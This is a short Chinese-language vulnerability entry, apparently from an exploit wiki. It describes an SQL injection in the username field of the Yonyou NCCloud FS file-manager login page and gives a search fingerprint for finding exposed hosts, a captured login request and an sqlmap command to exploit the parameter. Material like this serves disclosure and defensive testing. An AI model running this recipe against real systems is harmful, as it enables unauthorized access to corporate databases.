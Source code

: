 # 用友 NCCloud FS文件管理SQL注入

## 漏洞描述

用友 NCCloud FS文件管理登录页面对用户名参数没有过滤，存在SQL注入

## 漏洞影响

<a-checkbox checked>用友 NCCloud</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"NCCloud"</a-checkbox></br>

## 漏洞描述

登录页面如下



![img](/assets/PeiQi-Wiki/img/yongyou-13.png)

在应用中存在文件服务器管理登录页面

```plain
http://xxx.xxx.xxx.xxx/fs/
```



![img](/assets/PeiQi-Wiki/img/yongyou-14.png)



登录请求包如下



```plain
GET /fs/console?username=123&password=%2F7Go4Iv2Xqlml0WjkQvrvzX%2FgBopF8XnfWPUk69fZs0%3D HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: JSESSIONID=2CF7A25EE7F77A064A9DA55456B6994D.server; JSESSIONID=0F83D6A0F3D65B8CD4C26DFEE4FCBC3C.server
Connection: close
```

使用Sqlmap对`username参数` 进行SQL注入

```plain
sqlmap -r sql.txt -p username
```

![img](/assets/PeiQi-Wiki/img/yongyou-15.png)